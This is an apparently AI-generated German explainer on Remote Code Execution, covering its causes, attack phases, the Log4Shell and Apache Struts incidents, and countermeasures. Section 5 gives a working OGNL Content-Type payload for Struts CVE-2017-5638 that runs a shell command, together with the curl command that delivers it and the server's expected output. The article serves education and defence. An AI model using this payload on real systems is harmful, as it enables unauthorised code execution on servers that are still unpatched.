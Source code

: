 # Remote Code Execution (RCE): Funktionsweise, Risiken und ein Praxisbeispiel

**Kernaussage:** Remote Code Execution gehört zu den kritischsten Schwachstellen, weil Angreifer darüber ohne Authentifizierung beliebigen Code auf einem Zielsystem ausführen und damit vollständige Kontrolle erlangen können – vom Datendiebstahl bis zur Installation von Ransomware

## 1 Begriff und Abgrenzung

Eine _Remote Code Execution_-Schwachstelle ermöglicht die Ausführung von Code, der **(a)** nicht vom Hersteller vorgesehen ist und **(b)** aus der Ferne initiiert wird. RCE ist damit ein Spezialfall der _Arbitrary Code Execution_ (ACE); im Gegensatz zu rein lokalen ACE-Fehlern erfolgt der Angriff hier über das NetzwerkVon einer reinen **Command Injection** unterscheidet sich RCE dadurch, dass der eingeschleuste Code meist innerhalb der Anwendungssandbox ausgeführt wird, nicht zwangsläufig als Betriebssystem-Befehl[

## 2 Technische Ursachen

RCE-Bugs entstehen, wenn eine Anwendung **nicht vertrauenswürdige Eingaben** verarbeitet und sie ungeprüft an gefährliche Interpreter-Funktionen weiterreicht oder Speichergrenzen verletzt. Typische Fehlerklassen sind in Tabelle 1 zusammengefasst.

|Fehlerklasse|Typisches Szenario|RCE-Bezug|
|---|---|---|
|Pufferüberlauf|Unsichere `strcpy`/`memcpy` überschreibt Rücksprungadresse|Angreifer lenkt Instruction Pointer auf Shell-Code[3](https://www.extrahop.com/resources/attacks/remote-code-execution)|
|Deserialisierung|Objekt‐Streams werden blind entpackt|„Gadget-Chain“ wird beim Entpacken ausgeführt[4](https://www.invicti.com/learn/remote-code-execution-rce/)[6](https://xygeni.io/de/sscs-glossary/what-is-rce-vulnerability-remote-code-execution-vulnerability/)|
|Eval/Interpreter|`eval()` erhält Benutzereingaben (z. B. PHP)|Fremdcode wird als Skript interpretiert[7](https://www.php.net/manual/en/function.eval.php)[8](https://www.rafaybaloch.com/2017/06/remote-code-execution-in-php-explained.html)|
|Unsichere Lookups|JNDI-Nachschlag in Log4j‐Log-Eintrag|Externer Code wird nachgeladen (Log4Shell)[9](https://www.ibm.com/think/topics/log4shell)[10](https://news.sophos.com/en-us/2021/12/17/inside-the-code-how-the-log4shell-exploit-works/)|

## 3 Ablauf eines RCE-Angriffs

Ein typischer Angriff gliedert sich in drei Phasen:

1. _Aufklärung_ – Port- und Schwachstellen-Scan, z. B. mit Nmap oder Shodan[11](https://www.rapid7.com/fundamentals/what-is-remote-code-execution-rce/).
    
2. _Exploitation_ – Crafting eines Payloads, das durch die Schwachstelle ausgeführt wird[12](https://www.crowdstrike.com/de-de/cybersecurity-101/cyberattacks/remote-code-execution/)[11](https://www.rapid7.com/fundamentals/what-is-remote-code-execution-rce/).
    
3. _Post-Exploitation_ – Rechteausweitung, Persistence, seitliche Bewegung im Netzwerk[11](https://www.rapid7.com/fundamentals/what-is-remote-code-execution-rce/).
    

![Ablauf eines Remote-Code-Execution-Angriffs](https://pplx-res.cloudinary.com/image/upload/v1752487415/dalle3_images/diuguxsg1qgdadiep1x2.png)

Ablauf eines Remote-Code-Execution-Angriffs [openai](https://openai.com/dall-e-3)

## 4 Bekannte Vorfälle

- **Log4Shell (CVE-2021-44228):** Durch Einbetten eines JNDI-Strings wie `${jndi:ldap://…}` in beliebige Log-Felder konnte fremder Bytecode nachgeladen und ausgeführt werden. Schweregrad CVSS 10 / „eine der gefährlichsten Schwachstellen des letzten Jahrzehnts“[9](https://www.ibm.com/think/topics/log4shell)[10](https://news.sophos.com/en-us/2021/12/17/inside-the-code-how-the-log4shell-exploit-works/)[13](https://sysdig.com/blog/exploit-detect-mitigate-log4j-cve/)[14](https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-log4shell-log4j).
    
- **Apache Struts 2 (CVE-2017-5638):** Fehlerhafte Verarbeitung des HTTP-Headers `Content-Type` in der Jakarta-Multipart-Komponente erlaubte OGNL-Ausdrücke und führte zum Equifax-Databreach[15](https://threatprotect.qualys.com/2017/03/08/apache-struts-jakarta-multipart-parser-remote-code-execution-vulnerability/)[16](https://www.blackduck.com/blog/cve-2017-5638-apache-struts-vulnerability-explained.html)[17](https://www.trendmicro.com/en_us/research/17/c/cve-2017-5638-apache-struts-vulnerability-remote-code-execution.html)[18](https://www.f5.com/company/blog/nginx/modsecurity-apache-struts-cve-2017-5638).
    

## 5 Schritt-für-Schritt-Beispiel: Struts 2 CVE-2017-5638

Das folgende Szenario demonstriert einen RCE-Angriff in einem isolierten Testnetz. **Der Angriff darf ausschließlich in Laborumgebungen erfolgen.**

## 5.1 Voraussetzungen

- Verwundbare Web-App mit Struts 2 Version 2.5.10[19](https://github.com/ggolawski/struts-rce).
    
- Angreifer-Rechner mit _curl_.
    

## 5.2 Payload bauen

Die Schwachstelle wird über einen manipulierten `Content-Type`-Header ausgenutzt. Ein minimaler Payload, der den Befehl `id` ausführt, lautet[19](https://github.com/ggolawski/struts-rce):

text

`%{(#_='multipart/form-data').  (#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS). (#p=new java.lang.ProcessBuilder({'/bin/bash','-c','id'})). (#p.redirectErrorStream(true)).(#process=#p.start()). (@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}`

## 5.3 Exploit ausführen

text

`curl -isk -X POST \   -H "Content-Type: $PAYLOAD" \  http://zielserver/struts2/upload.action`

## 5.4 Ergebnis prüfen

Die Server-Antwort enthält die Ausgabe des Befehls, z. B.:

text

`uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat)`

Damit ist nachgewiesen, dass beliebiger Code unter den Rechten des Applikations-Benutzers ausgeführt wird. Im nächsten Schritt könnte der Angreifer eine Reverse-Shell laden oder persistente Malware installieren[15](https://threatprotect.qualys.com/2017/03/08/apache-struts-jakarta-multipart-parser-remote-code-execution-vulnerability/)[20](https://www.briskinfosec.com/blogs/blogsdetail/Command-Execution-Attacks-on-Apache-Struts-server-CVE-2017-5638)[17](https://www.trendmicro.com/en_us/research/17/c/cve-2017-5638-apache-struts-vulnerability-remote-code-execution.html).

## 6 Schutzmaßnahmen

|Maßnahme|Wirkung|
|---|---|
|**Sicherer Coding-Standard** (Input-Validierung, keine `eval`, strikte Typen)|Eliminieren ganzer Fehlerklassen[21](https://www.mindtwo.de/lexicon/remote-code-execution-rce)[8](https://www.rafaybaloch.com/2017/06/remote-code-execution-in-php-explained.html)|
|**Patch-Management** & SBOM|Schnelles Schließen bekannter CVEs (z. B. Log4j ≥ 2.17.1)[9](https://www.ibm.com/think/topics/log4shell)|
|**Virtuelles Patching / WAF-Regeln**|Sofortiger Schutz durch Blocken charakteristischer Header bzw. Payloads (`#cmd=` in Struts)[18](https://www.f5.com/company/blog/nginx/modsecurity-apache-struts-cve-2017-5638)|
|**Least Privilege & Segmentation**|Begrenzen des Schadens bei erfolgreicher Ausführung[3](https://www.extrahop.com/resources/attacks/remote-code-execution)|
|**Penetration Tests & Red Team-Übungen**|Frühzeitiges Finden unbekannter RCE-Pfade[12](https://www.crowdstrike.com/de-de/cybersecurity-101/cyberattacks/remote-code-execution/)|

## 7 Fazit

Remote-Code-Execution-Schwachstellen erlauben **vollständige Systemkompromittierung bei minimalem Aufwand** und stehen regelmäßig an der Spitze der am häufigsten ausgenutzten CVEs[22](https://arcticwolf.com/resources/blog-de/das-anhaltende-risiko-der-remote-code-ausfuehrung/). Ein effektives Abwehrkonzept kombiniert **sicheres Entwicklungs-Lifecycle**, konsequentes **Patchen** sowie **technische Gegenmaßnahmen** wie WAF-Signaturen oder Runtime-Protection. Wer diese Ebenen lückenlos verknüpft, reduziert das RCE-Risiko erheblich – und damit die Gefahr von Datendiebstahl, Ransomware oder Krypto-Mining.